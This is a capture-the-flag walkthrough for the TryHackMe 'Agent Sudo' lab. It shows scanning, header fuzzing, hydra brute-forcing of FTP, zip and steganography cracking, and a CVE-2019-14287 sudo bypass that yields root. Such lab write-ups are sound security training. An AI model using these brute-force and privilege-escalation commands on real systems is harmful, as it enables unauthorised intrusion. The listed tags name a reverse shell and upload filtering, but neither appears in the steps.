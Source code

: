 # Agent_Sudo
![tryhackme_logo](https://user-images.githubusercontent.com/83867734/185771149-cb02c6f2-8476-4ab3-a626-cca8db0a08bf.png)

Difficulty: **Easy**

Compromise the machine and read the user.txt and root.txt.

Tags
--
* Fuzzing
* Reverse Shell 
* Weak Upload Filtering
* SUID

Tools used
--
* nmap
* ffuf
* find
* python

Machines
--
Attacker:
* Name: attacker_machine
* Operating System: Athena OS
* IP Address: 10.18.98.39

Victim:
* Name: victim_machine
* IP Address: 10.10.48.88
* Other information must be gathered during the attack

Phase 1: Enumeration
--
```
sudo nmap -sS -sC -sV 10.10.48.88 -p- -T5 -vvv

<SNIP>
Initiating SYN Stealth Scan at 20:21
Scanning 10.10.48.88 [65535 ports]
Discovered open port 22/tcp on 10.10.48.88
Discovered open port 80/tcp on 10.10.48.88
Discovered open port 21/tcp on 10.10.48.88
<SNIP>
```
Let's try to fuzz on the web application. According our fuzzing, we didn't find any directory or file. Let's read the communication on the home page:
```
Dear agents,

Use your own codename as user-agent to access the site.

From,
Agent R 
```
There is an Agent R, so we can try to change User-Agent as R. If we do that, we get the following message:
```
What are you doing! Are you one of the 25 employees? If not, I going to report this incident
```
Let's try to fuzz the User-Agent with a wordlist of Uppercase letters called `agents.txt` we can create easy and then run:
```
<SNIP>
R                       [Status: 200, Size: 225, Words: 2, Lines: 1, Duration: 3578ms]
C                       [Status: 302, Size: 218, Words: 13, Lines: 19, Duration: 3585ms]
<SNIP>
```
Note that `C` result has `302` status. We must check where it redirects. By using Burpsuite, the redirection brings us to `/agent_C_attention.php` page where we get the following message:
```
Attention chris,

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!

From,
Agent R
```
Let's try to bruteforce chris user by FTP service:
```
hydra -l chris -P rockyou.txt 10.10.48.88 ftp

<SNIP>
[DATA] attacking ftp://10.10.48.88:21/
[21][ftp] host: 10.10.48.88   login: chris   password: crystal
[STATUS] 14344398.00 tries/min, 14344398 tries in 00:01h, 1 to do in 00:01h, 8 active
1 of 1 target successfully completed, 1 valid password found
<SNIP>
```
Phase 2: Foothold
--
Let's enter in the FTP server with this account:
```
ftp chris@10.10.48.88
```
Inside it there are two images and one txt file with the following message:
```
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```
This message suggests us that the password should be hidden inside one of the two images. Indeed, executing `binwalk` we get:
```
binwalk cutie.png

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
869           0x365           Zlib compressed data, best compression
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820         0x8804          End of Zip archive, footer length: 22
```
Let's extract them by binwalk. On Arch Linux, you need to install for first 7zip and JDK for `7z` and `jar` command in order to extract the hidden contents of the file correctly:
```
sudo pacman -Syy jdk-openjdk p7zip

binwalk -e cutie.png
```
We get a `8702.zip` and the automatically extracted `To_agentR.txt`. We cannot access to this text file because the `.zip` is password-protected and this extraction was "fake". Let's try to use John for cracking the password:
```
zip2john 8702.zip > zip.hash
ver 81.9 8702.zip/To_agentR.txt is not encrypted, or stored with non-handled compression type

john zip.hash --wordlist=~/rockyou.txt
<SNIP>
Loaded 1 password hash (ZIP, WinZip [PBKDF2-SHA1 128/128 AVX 4x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
alien            (8702.zip/To_agentR.txt)
<SNIP>
```
Let's extract the content and read that text file:
```
7z x 8702.zip
<Enter alien as password>

cat To_agentR.txt

Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```
By decoding as Base64 `QXJlYTUx`, we get `Area51`. There are not other hints. Let's try to use StegHide on the second image (binwalk gave us no hidden content information, probably because the other image was protected by a password):
```
steghide extract -sf cute-alien.jpg

Enter passphrase:<Area51>
wrote extracted data to "message.txt".
```
In case the password was not available, we could use `stegcracker`. 

Let's read the extracted file:
```
cat message.txt

Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```
Let's login by SSH with james account:
```
ssh 10.10.48.88 -l james
<hackerrules!>

cat user_flag.txt
```
and we get the user flag.

Phase 3: Privilege Escalation
--
If we run LinPEAS, we can see a red string on the sudo version. If we visit https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-version (CVE-2019-14287), we can run:
```
sudo -u#-1 /bin/bash
```
and we get root privileges. Now we can read the root flag at `cat /root/root.txt`.
